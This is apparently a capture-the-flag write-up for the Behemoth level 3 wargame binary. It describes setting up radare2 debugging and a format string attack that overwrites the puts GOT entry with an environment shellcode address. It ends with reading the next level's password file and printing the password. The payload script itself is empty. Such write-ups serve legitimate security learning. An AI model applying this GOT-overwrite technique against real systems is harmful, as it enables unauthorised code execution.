



first i created `profile.rr2` file and put the follow content in it:
```
program=/behemoth/behemoth3
stdin=input
```

then, i inserted the payload into the input file:
```
python3 payload.py > input
```

and then, when i want to debug with r2 and the given input, i can run this line: 
```
r2 -e dbg.profile=profile.rr2
```
first, we can see that the binary doesn't use ASLR, and also the relro is turned off.


so, let's try to use the format string attack to override the address of the puts function to our shellcode address.

find the address to override:


so, the address is: `0x0804b218`
the address we want to insert is: `0xffffd53f` (same as last level, put shellcode on env, and find its address)

the python script for creating the payload can is here: [level4.py]
```python

```


after building the payload, all left is to run this:
```
(python3 payload.py;cat) | /behemoth/behemoth3
```

and then
```
cat /etc/behemoth_pass/behemoth4
hpjUdlG723
```

**Flag:** ***`hpjUdlG723`*** 
